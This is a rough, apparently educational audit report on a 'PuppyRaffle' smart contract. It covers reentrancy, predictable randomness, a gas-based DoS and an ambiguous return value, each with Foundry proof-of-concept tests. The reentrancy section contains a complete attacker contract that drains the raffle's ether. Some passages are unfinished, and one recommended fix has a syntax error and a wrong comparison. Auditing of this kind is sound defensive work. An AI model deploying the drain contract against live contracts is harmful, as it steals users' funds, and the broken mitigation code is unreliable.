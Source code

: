 ### [C-1] Reentrancy in refund function

**Description:** 
Rafund function does not implement reentrancy protection. Attacker can invoke refund function from specialy crafted, malicous contract. When refund will send eth to this contract execution is passed to it while state of victim contract is not changed. That gives oportunity to invoke refound once again and receive another eth. Doing it until any eth is left in victim contract will drain all assets from it.

<details>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

``` 
</details>

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC - test function</summary>

```javascript
    function testRefundReentrancy() public {

        // Stage 0: Deploy malicious contract
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        deal(playerOne, puppyRaffle.entranceFee() * 5);
        vm.prank(playerOne);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 contractBalanceBefore = address(puppyRaffle).balance;

        // Stage 1: Deploy malicious contract
        vm.deal(attacker, entranceFee);
        uint256 attackContractBalanceBefore = address(attacker).balance;
        vm.startPrank(attacker);
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker);


        // Stage 2: Invoke attack function
        reentrancyContract.attack();

        // Stage 3: Verify that the attacker has successfully withdrawn the prize
        uint256 attackContractBalanceAfter = address(attacker).balance;
        
        assertGt(attackContractBalanceAfter, attackContractBalanceBefore);
        assertLt(address(puppyRaffle).balance, entranceFee);
        vm.startPrank(attacker);

    }

```
</details>

<details>
<summary>PoC - Malicious Contract</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import {Test, console} from "forge-std/Test.sol";

interface PuppyRaffle {
    function getActivePlayerIndex(address player) external view returns (uint256);
    function entranceFee() external view returns (uint256);
    function enter(uint256 index) external payable;
    function withdraw(uint256 amount) external;
    function enterRaffle(address[] memory newPlayers) external payable;
    function refund(uint256 playerIndex) external;
}

contract ReentrancyContract {
    address private immutable owner;
    PuppyRaffle private raffle;
    uint256 private entryFee;
    uint256 private attackerIndex;

    event AttackStarted();
    event EthReceived(uint256 amount);
    event ReentrancyStarted();
    event LootWithdrawn(uint256 amount);

    constructor(address raffleAddress, address ownerAddress) payable {
        // Set the contract owner
        owner = ownerAddress;

        // Initialize the PuppyRaffle contract
        raffle = PuppyRaffle(raffleAddress);

        // Create an array of attackers with the current contract address
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        
        // Get the entrance fee from the PuppyRaffle contract
        entryFee = raffle.entranceFee();

        // Enter the raffle with the entrance fee
        raffle.enterRaffle{value: entryFee}(attackers);

        // Get the index of the attacker in the raffle
        attackerIndex = raffle.getActivePlayerIndex(address(this));

        // Log the attacker index and entry fee
        // console.log("Attacker index: %d", attackerIndex);
        // console.log("Entry fee: %d", entryFee);

        emit AttackStarted();
    }

    function attack() external {
        emit ReentrancyStarted();
        raffle.refund(attackerIndex);
    }

    receive() external payable {
        emit EthReceived(msg.value);
        if (address(raffle).balance >= entryFee) {
            raffle.refund(attackerIndex);
        }else{
            withdraw();
        }
    }

    function withdraw() internal {
        uint256 balance = address(this).balance;
        payable(owner).transfer(balance);
        emit LootWithdrawn(balance);
    }
}

```
</details>

**Recommended Mitigation:** 
Implement check interactions effect pattern or ReentrancyGuard mutex.


### [H-2] Insecure randomnes

**Description:** 
The `PuppyRaffle` contract uses insecure randomness. A malicious user can predict how many addresses they need to add due to the randomness implementation based on block data, sender address, and internal array size. All these parameters can be under the attacker's control or they can know their values, making it possible to manipulate the contract state to always win the lottery.



<summary>Vulnerable code 1</summary>

```javascript
uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length

```
</details>

Moreover, the value of the minted item is also based on predictable or controllable data:

<details>
<summary>PoC</summary>

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
```
</details>
 A malicious user can generate a large number of accounts and pick the one which will generate a Legendary item.

It is worth mentioning that participants will always get the same item value for the same account.

In some scenarios, conducting a successful attack may require a lot of assets. However, a malicious user can reclaim them by chaining this exploit with reentrancy, making the whole exploitation profitable. They will get the invested amount back, plus ETH stolen from other participants, plus the prize for winning the lottery and a Legendary NFT.

**Impact:** 
Critical - Malicous user can

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
   
        
        

```
</details>

**Recommended Mitigation:** 
Use a Secure Randomness Source: Replace the insecure randomness source with a more secure and unpredictable one, such as Chainlink VRF (Verifiable Random Function).
Delay Randomness Calculation: Introduce a delay between the action and the randomness calculation to reduce predictability.
Combine Multiple Sources: Use multiple sources of randomness to make it harder to predict the outcome.


### [M-1] DoS attack in `PuppyRaffle::enterRafle'

**Description:** 
Protocol uses nested loop which sieze is under attacker control. Attacker can invoke function with large array to cause DoS while looping n^2 complex function increasing cost of entering to raffle. 

**Impact:** 
Every next entrance will be more expensive. If attacker  with add big array he will make unprofitable to join raffle fore anyone fue to lifting up gas price for executing `enterRaffle` function

**Proof of Concept:** (Proof of Code)
<details>
<summary>PoC</summary>

```javascript
    function testEnterRaffleDoS() public {
        uint256 largeArraySize = 10000; // Adjust this size based on gas limits and testing environment
        address[] memory largeArray = new address[](largeArraySize);
        for (uint256 i = 0; i < largeArraySize; i++) {
            largeArray[i] = address(uint160(i));
        }

        // Fund the attacker to cover entrance fees
        deal(attacker, puppyRaffle.entranceFee() * largeArraySize);
        vm.txGasPrice(1);
        uint256 gasStart = gasleft();
        // Try to enter the raffle with the large array

        vm.startPrank(attacker);
        try puppyRaffle.enterRaffle{value: puppyRaffle.entranceFee() * largeArraySize}(largeArray) {
            emit log("The DoS attack was successful, which is unexpected.");
        } catch {
            emit log("The DoS attack failed as expected due to high gas consumption.");
        }
        uint256 gasEnd = gasleft();
        uint256 gasUsed = (gasStart - gasEnd)*tx.gasprice;                
        console.log("AL:", gasUsed);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation:** 
<details>
<summary>PoC</summary>

```javascript

// Check for duplicates only from the new players using mappin
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] != raffleId;
        }

        for(uint256 i=0; i < newPlayers.length; i++>){
            require(addressToRaffleId[newPlayers[i]] != raffleId, "Duplicate");
        }
            emit RaffleEnter(newPlayers);
    }

```
</details>


### [M-#] Ambigous 0 value in function return

**Description:** 
If a player is at index 0 function will mislead user that he is not active because 0 is returned also for non-active users. 

<details>
<summary>PoC</summary>

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```
</details>
**Impact:** 
If user 

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
Added log function to contract 

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        console.log("Player not not active");
        return 0;
    }
```

```javascript
    function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
    }
```


</details>

**Recommended Mitigation:** 
Revert if user is not active.
Revert if player is not active.
```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        // console.log("Player not not active");
        // return 0;
        revert("PuppyRaffle: Player not active");
    }
```

```javascript
   function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
        vm.expectRevert("PuppyRaffle: Player not active");
        assertEq(puppyRaffle.getActivePlayerIndex(playerThree), 0);
    }
```




# TEMPLATE

### [S-#] Private Data stored in storeage on chain HIGH (ROOT CAUSE + IMPACT)

**Description:** 

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>

```javascript


```
</details>

**Recommended Mitigation:** 
Revert if player is not active.
```javascript

```

```javascript

    
```

